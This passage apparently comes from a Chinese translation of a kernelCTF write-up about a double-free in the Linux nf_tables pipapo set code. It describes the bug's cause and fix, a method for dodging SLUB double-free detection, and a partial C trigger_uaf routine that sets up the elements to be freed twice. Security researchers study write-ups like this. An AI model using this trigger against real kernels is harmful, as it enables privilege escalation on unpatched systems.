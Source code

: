 但是当引入set->dead  
 标志时，一些关于提交路径的假设发生了改变。它创造了一种新的方式来访问这段代码，同时已经在集合中提交了更改。这意味着任何已提交的更改都会在"普通"匹配对象和克隆中各有一个视图。  
  
这个漏洞最终通过仅从克隆中删除元素得到修复，因为克隆应该包含已提交和未提交更改的所有视图，从而有效地消除了双重释放漏洞。  
## KernelCTF 漏洞利用  
  
现在我们已经了解了这个漏洞的完整故事，让我们来看看在深入研究通用漏洞利用之前，我是如何在 KernelCTF LTS 实例中利用它的。漏洞利用的很大一部分是基于 lonial con 在  
之前的 kernelCTF 漏洞利用[10]  
中分享的nft_object + udata  
 技术。  
### 触发 UAF/避免双重释放检测  
  
SLUB 分配器有一个简单的双重释放检测机制，用于发现直接的序列，比如同一个对象在没有其他对象添加到空闲列表的情况下被连续添加两次。正如我们所见，nft_set_pipapo_match_destroy  
 会遍历集合中的setelems  
 并释放每一个，所以通过在集合中放置多个元素来避免检测应该相对简单，这种情况下会发生以下情况：  
1. 元素 A 被释放  
  
1. 元素 B 被释放  
  
1. 元素 A 再次被释放（双重释放）  
  
1. 元素 B 再次被释放（双重释放）  
  
```
[...]
static void trigger_uaf(struct mnl_socket *nl, size_t size, int *msgqids)
{
[...]
    // TRANSACTION 2
[...]

    // create pipapo set
    uint8_t desc[2] = {16, 16};
    set = create_set(
        batch, seq++, exploit_table_name, "pwn_set", 0x1337,
        NFT_SET_INTERVAL | NFT_SET_OBJECT | NFT_SET_CONCAT, KEY_LEN, 2, &desc, NULL, 0, NFT_OBJECT_CT_EXPECT);

    // commit 2 elems to set (elems A and B that will be double-freed)
    for (int i = 0; i < 2; i++)
    {
        elem[i] = nftnl_set_elem_alloc();
        memset(key, 0x41 + i, KEY_LEN);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_OBJREF, "pwnobj", 7);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_KEY, &key, KEY_LEN);
        nftnl_set_elem_set(elem[i], NFTNL_SET_ELEM_USERDATA, &udata_buf, size);
        nftnl_set_elem_add(set, elem[i]);
    }
[...]

    // TRANSACTION 3
[...]
    set = nftnl_set_alloc();
    nftnl_set_set_u32(set, NFTNL_SET_FAMILY, family);
    nftnl_set_set_str(set, NFTNL_SET_TABLE, exploit_table_name);
    nftnl_set_set_str(set, NFTNL_SET_NAME, "pwn_set");

    // make priv->dirty true
    memset(key, 0xff, KEY_LEN);
    elem[3] = nftnl_set_elem_alloc();
    nftnl_set_elem_set(elem[3], NFTNL_SET_ELEM_OBJREF, "pwnobj", 7);
    nftnl_set_elem_set(elem[3], NFTNL_SET_ELEM_KEY, &key, KEY_LEN);
    nftnl_set_elem_add(set, elem[3]);
[...]
```
